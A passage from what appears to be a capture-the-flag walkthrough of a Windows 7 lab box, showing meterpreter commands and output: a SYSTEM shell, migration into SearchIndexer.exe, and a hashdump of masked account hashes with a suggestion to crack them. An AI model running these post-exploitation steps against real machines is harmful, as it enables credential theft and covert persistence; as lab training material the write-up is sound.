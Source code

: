 2. Let's test the privilege escalations. We are `System` on the system.

**Output**

```ps
meterpreter > shell
Process 2212 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

7. List all of the processes running via the 'ps' command. we find that the `2828 PID is interesting and out of the normal. Let's dig into it by **migrating into it**.

**Output**

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 .....
 2516  696   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 2584  696   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2708  696   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\sppsvc.exe
 2756  696   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2828  696   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe

meterpreter > migrate 2828
[*] Migrating from 2756 to 2828...
[*] Migration completed successfully.
```

## CRACKING CREDs

1. Within our elevated meterpreter shell, run the command 'hashdump'. We found creds for a non-default user `Jon` in it.\
We can now use _hashcat or johntheripper_ to crack them with correct mode and wordlist.

**Output**

```bash
meterpreter > hashdump
Administrator:***************************************************************:::
Guest::***************************************************************:::
Jon::***************************************************************:::
```
